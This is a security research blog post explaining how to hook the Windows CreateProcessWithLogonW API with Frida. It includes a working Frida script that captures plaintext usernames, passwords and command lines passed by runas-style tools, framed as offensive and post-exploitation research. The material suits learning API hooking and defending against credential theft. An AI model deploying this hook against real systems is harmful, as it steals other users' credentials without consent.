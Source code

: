 <!--
---
layout: single
title: Hooking CreateProcessWithLogonW with Frida
date: 2020-2-22
classes: wide
header:
  teaser: /assets/images/APIHooking/Start.jpg
---
-->

Introduction
------------
Following [b33f](https://twitter.com/FuzzySec) most recent [Patreon](https://www.patreon.com/FuzzySec) session titled `RDP hooking from POC to PWN` where he talks about API hooking in general and then discuss in details RDP hooking ([RdpThief](https://www.mdsec.co.uk/2019/11/rdpthief-extracting-clear-text-credentials-from-remote-desktop-clients/)) research published in 2019 by [@0x09AL](https://twitter.com/0x09al), I've decided to learn more about the subject as it seemed intriguing from an offensive research standpoint. In essence, API hooking is the process by which we can intercept and potentially modify the behavior and flow of API calls. In this blog we will be looking at capturing data pertaining to API calls for the most part.

Tooling
-------
We will be using the following tools:

* [API Monitor](http://www.rohitab.com/apimonitor) tool which is a free software that lets you monitor and control API calls made by applications and services according to the website.
* [Fermion](https://github.com/FuzzySecurity/Fermion) wrapper for [Frida](https://github.com/frida) or [frida-node](https://github.com/frida/frida-node) rather exposing the ability to inject [Frida](https://github.com/frida) scripts into processes using a single UI. 

Target
------
While reading through chapter 3 of Windows Internals book, I noticed a mention of the [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) API which could be used by programs and/or utilities that offer execution in the context of a different user such as `runas` command-line utility. Moreover, examining this function API documentation on MSDN I found that it takes clear-text password for a given user account as parameter amongest others which makes it even more interesting. At this point I thought this is something worth exploring and started targeting commands that make use of said API. The following is list of few commands I tested:

  
Start
-----
As the name suggest, the [start](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/start) command enables a user to open a separate window from the Windows command line. Let's execute the below command to spawn command prompt as a different user while running API Monitor in the background.

![](/assets/images/APIHooking/Start.jpg)

We notice call to [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) API which holds the credential values we just entered in the first and second parameters.

![](/assets/images/APIHooking/APIMon1.PNG)

Start-Process
--------------
The [Start-Process](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/start-process?view=powershell-7) cmdlet starts one or more processes on the local computer such as starting process using alternate credentials amongest other things.

![](/assets/images/APIHooking/Start-Process.JPG)

Again we search for call to [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) API and examine the parameters as shown below.

![](/assets/images/APIHooking/APIMon2.JPG)

Start-Job
---------
The last cmdlet we're going to test is [Start-Job](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/start-job?view=powershell-7) which is used to run jobs in the background. In this case, we're going to invoke basic powershell script to mix things up.

```powershell
$username = "lowpriv"
$password = "Passw0rd!"
$securePassword = ConvertTo-SecureString  -String $password -AsPlainText -Force
$Creds = New-Object System.Management.Automation.PSCredential -ArgumentList ($username, $securePassword)
Start-Job -ScriptBlock {Get-Process Explorer} -Credential $Creds
```

And we get the same result.

![](/assets/images/APIHooking/APIMon3.JPG)

Frida Script
------------
I've put together basic [Frida](https://github.com/frida) script that hooks the [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) API and then extract clear-text credentials.

```javascript
// This script extract clear-text passwords by hooking CreateProcessWithLogonW function API.
//------------------------------------------------------------------------------------------

// https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw
var pCreateProcessWithLogonW = Module.findExportByName("Advapi32.dll", 'CreateProcessWithLogonW')

Interceptor.attach(pCreateProcessWithLogonW, {
    onEnter: function (args) {
        send("[+] CreateProcessWithLogonW API hooked!");
        // Save the following arguments for OnLeave
        this.lpUsername = args[0];
        this.lpDomain = args[1];
        this.lpPassword = args[2];
        this.lpApplicationName = args[4];
        this.lpCommandLine =args[5];
    },
    onLeave: function (args) {
        send("[+] Retrieving argument values..");
        send("=============================");
        send("Username    : " + this.lpUsername.readUtf16String());
        send("Domain      : " + this.lpDomain.readUtf16String());
        send("Password    : " + this.lpPassword.readUtf16String());
        send("Application : " + this.lpApplicationName.readUtf16String());
        send("Commandline : " + this.lpCommandLine.readUtf16String());
        send("=============================");
    }
});
```

Let's test it.

![](/assets/images/APIHooking/Demo.gif)

Conclusion
----------
I believe this post serves as a gentle introduction to API hooking and I'm sure I missed a few other commands that make use of [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) API behind the scenes ;D. I don't know wether this is useful from post-exploitation standpoint and would rather leave it to the reader to decide. Lastly, I would like to thank [@h0mbre_](https://twitter.com/h0mbre_) for reviewing this post and hope this was a good read.